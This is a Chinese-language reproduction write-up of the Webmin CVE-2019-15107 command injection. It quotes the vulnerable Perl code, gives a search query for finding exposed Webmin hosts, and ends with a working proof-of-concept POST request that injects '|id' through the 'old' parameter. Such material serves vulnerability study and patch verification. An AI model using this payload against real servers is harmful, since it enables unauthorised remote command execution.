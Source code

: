 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是 一 个 用 于 管 理 类 Unix系 统 的 管 理 配 置 工 具 ， 具 有 Web页 面 。 在 其 找 回 密 码 页 面 中 ， 存 在 一 处 无 需 权 限 的 命 令 注 入 漏 洞 ， 通 过 这 个 漏 洞 攻 击 者 即 可 以 执 行 任 意 系 统 命 令 。 

## 漏洞影响

<a-checkbox checked>Webmin <= 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563.png)

漏洞的触发点为文件 password_change.cgi 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661568713515-5009d2d4-80a9-49b0-ab9b-f098bff322c4.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661568802728-3a2a2afb-8b16-47f9-9fb1-e83c6854ee94.png)

```php
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```php
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661480163002-a6dc7596-7d8a-4f8f-9b76-da1caa8b1b75.png)